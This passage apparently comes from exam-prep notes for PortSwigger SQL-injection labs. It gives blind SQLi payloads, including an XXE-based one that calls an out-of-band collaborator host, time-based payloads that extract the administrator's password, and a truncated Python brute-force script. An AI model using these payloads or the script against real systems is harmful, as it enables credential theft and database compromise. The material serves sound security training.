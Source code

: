 >The SQL payload above can also be used to extract the Administrator password for the this [PortSwigger Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) challenge.  

### Blind SQLi no indication  

>Placing a single quote at end of the ```trackingid``` cookie or search parameter `/search_advanced?searchTerm='` may give response `500 Internal Server Error`. Make an educated guess, by using below blind SQLi payload and combine with basic XXE technique, this then makes a call to collaboration server but no data is ex-filtrated.  

```sql
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//COLLABORATOR.NET/">+%25remote%3b]>'),'/l')+FROM+dual--
```  
  
![SQLi XXE](images/sqli-XXE.png)  

>Additional SQLi payload with XML for reference with ```||``` the SQL concatenation operator to concatenate two expressions that evaluate two character data types or to numeric data type and do some obfuscating.  

```
'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % fuzz SYSTEM "http://Collaborat'||'OR.COM/">%fuzz;]>'),'/l') from dual)||'
```  

[OAST - Out-of-band Application Security Testing](https://portswigger.net/burp/application-security-testing/oast)  

[PortSwigger Lab: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)  

### SQLi Timebase in exam

> Get length password administrator

```SQL
1'||(SELECT CASE WHEN (length((select password from users where username='administrator'))=20) THEN pg_sleep(2) ELSE pg_sleep(0) END)||'
```

> Get each character in the administrator's password

```SQL
1'||(SELECT CASE WHEN (SUBSTRING((select password from users where username='administrator'), xxx, 1)='yyy') THEN pg_sleep(2) ELSE pg_sleep(0) END)||'
```
- xxx is the position of that character in the password string
- yyy is the value of the character in the password at position xxx

> Script python

```Python
import requests
import string

URL = "https://exam_host/advanced-search?sort_by=DATE&blogArtist=&searchterm="

cookie = {"session": "cookie_user"}

chars = string.ascii_letters + string.digits
password = ''
for i in range(1,21):
    for j in chars:
        payload = f"1'||(SELECT CASE WHEN (SUBSTRING((select password from users where username='administrator'), {i}, 1)='{j}') THEN pg_sleep(2) ELSE pg_sleep(0) END)||'"
        print(f"Try: {j} at address {i}", end="\r")
        try:
```